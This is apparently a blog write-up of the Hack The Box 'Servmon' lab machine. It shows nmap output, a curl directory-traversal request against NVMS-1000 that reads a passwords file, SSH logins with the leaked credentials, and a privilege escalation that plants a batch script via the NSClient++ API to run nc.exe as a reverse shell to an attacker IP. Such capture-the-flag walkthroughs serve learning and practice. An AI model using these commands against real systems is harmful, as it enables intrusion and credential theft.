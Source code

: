 ```yaml
---
title: "[HTB] Servmon WriteUp"
date: 2020-06-15T15:34:30-04:00
categories:
  - writeup
excerpt: "Lets start by running nmap. FTP is running and allows anonymous login."
tags:
  - HTB
  - Hack The Box
  - WriteUp
---
```


![]({{ site.url }}{{ site.baseurl }}/assets/servmon/servmon.jpg)

* OS: Windows
* Difficulty: Easy
* Points: 20
* Release: 11 Apr 2020
* IP: 10.10.10.184

Lets start by running nmap

```bash
nmap -sC -sV -oN nmap/nmap 10.10.10.184
```

Output:
```bash
# Nmap 7.80 scan initiated Tue May  5 19:41:18 2020 as: nmap -sV -sC -oN nmap/nmap 10.10.10.184
Nmap scan report for 10.10.10.184
Host is up (0.024s latency).
Not shown: 991 closed ports
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_01-18-20  12:05PM       <DIR>          Users
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 b9:89:04:ae:b6:26:07:3f:61:89:75:cf:10:29:28:83 (RSA)
|   256 71:4e:6c:c0:d3:6e:57:4f:06:b8:95:3d:c7:75:57:53 (ECDSA)
|_  256 15:38:bd:75:06:71:67:7a:01:17:9c:5c:ed:4c:de:0e (ED25519)
80/tcp   open  http
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
|_http-title: Site doesnt have a title (text/html).
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5666/tcp open  tcpwrapped
6699/tcp open  tcpwrapped
8443/tcp open  ssl/https-alt
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|_    Location: /index.html
| http-title: NSClient++
|_Requested resource was /index.html
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2020-01-14T13:24:20
|_Not valid after:  2021-01-13T13:24:20
|_ssl-date: TLS randomness does not represent time
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
...
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 4m16s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-05-05T18:47:18
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue May  5 19:43:07 2020 -- 1 IP address (1 host up) scanned in 108.77 seconds
```

FTP is running and allows anonymous login.
There are two users listed on the FTP server, Nadine and Nathan. We also find tome text files, "Notes to do".txt and Confidential.txt

Confidential.txt reads 
```
Nathan,

I left your Passwords.txt file on your Desktop.
Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```

The webserver is running NVMS-1000, searching for exploits we find [CVE:2019-20085](https://www.exploit-db.com/exploits/48311) which is a directory traversal. We can use this to find the passwords.txt that the note told us about.

```bash
curl --path-as-is -G http://10.10.10.184/../../../../../../../../Users/Nathan/Desktop/passwords.txt
```

This gives us a list of passwords 

```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

We can try SSH with these passwords against both known users. The password L1k3B1gBut7s@W0rk works with Nadine.

We log in as Nadine and find User.txt on the Desktop.


### PrivEsc

This part took me a long time to do, mostly due to the GUI interface. I eventually done it using the [web API](https://docs.nsclient.org/api/).

Port 8443 is running NSClient++.

We can find the password for NSClient++ by going to C:\Program Files\NSClient++ and using the following command

```bash
nscp web --password --display
Current password: ew2x6SsGTxjRwXOT
```

We can try logging in using this password but it will only allow connections from localhost. SSH has port forwarding built in so log in as Nadine with port forwarding enabled.

```bash
ssh -L 8443:127.0.0.1:8443 Nadine@10.10.10.184
```

Now we can use the web API to add a malicious script and execute it to gain root privileges.

First we need to upload nc.exe to C:/Temp. Then use the following command to add our script.

```bash
curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/evil.bat --data-binary "C:\Temp\nc.exe 10.10.14.33 9001 -e cmd.exe"
```

When run this will call back to our IP address. Set up a listener on the attacking machine.

```bash
nc -lvnp 9001
```

Then run the script

```bash
curl -s -k -u admin https://localhost:8443/api/v1/queries/evil/commands/execute?time=1m
```

This should connect back and give us root!

Root.txt is in C:\Users\Administrator\Desktop\root.txt
